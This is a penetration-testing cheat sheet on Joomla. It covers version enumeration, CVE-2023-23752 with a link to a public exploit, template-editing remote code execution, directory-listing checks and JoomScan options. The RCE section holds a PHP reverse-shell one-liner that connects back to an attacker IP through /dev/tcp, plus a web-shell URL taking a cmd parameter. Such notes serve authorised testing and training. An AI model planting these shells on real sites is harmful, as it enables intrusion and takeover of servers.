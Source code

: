 ## Version Enumeration

- **Via `joomla.xml` file:**  
Check this file to get the Joomla version and list of core files:
```bash
/administrator/manifests/files/joomla.xml
```

- **Via other XML files:**  
Some plugin manifests like:
```bash
/plugins/system/cache/cache.xml
```

- **Meta Generator tag:**  
Check page source for:
```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```

#### CVE-2023-23752 (4.0.0 ≤ Joomla ≤ 4.2.7)

- Public exploit:  
[https://github.com/0xNahim/CVE-2023-23752](https://github.com/0xNahim/CVE-2023-23752)

- Leaks sensitive config/data via unauthenticated API access, providing user credentials.
## Remote Code Execution via Template Editing

If you have administrator access, or can exploit weak ACL (Access Control List) configurations, you can inject PHP code into template files.

Example: modify a template file `index.php` to include a reverse shell:
1. Navigate to Joomla administrator panel.
2. Go to Templates → Templates → Edit your active template.
3. Edit `index.php`, `error.php` or add a new file with the following PHP reverse shell code:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<own_ip>/<port> 0>&1'"); ?>
```
![](../../Images/joomla_template_preview.png)
Uploaded shell access:
```bash
http://target.com/images/uploads/shell.php?cmd=id
```


## Directory Indexing Vulnerabilities
Misconfigured web servers may allow directory listing on web-accessible folders.

#### Impact

- Exposure of sensitive files such as backups, configuration files (`configuration.php`), plugins, and template files.
- Information leakage without requiring brute forcing or direct exploitation.

#### Testing Directory Indexing

- Manually browse to common Joomla folders and observe HTTP responses.
- Look for HTTP 200 OK responses displaying directory contents.

Example directories to test:

```bash
/administrator/manifests/files/
/templates/
/images/
/plugins/
```


## JoomScan

**JoomScan** is a popular open-source tool for scanning Joomla websites for vulnerabilities.

```bash
joomscan -u <target>
```

#### Common Options

- `-u` : Specify target URL
- `-v` : Enable verbose mode (more detailed output)
- `-p` : Scan specific plugins
- `--update` : Update vulnerability database
- `--list-plugins` : List all available plugins to scan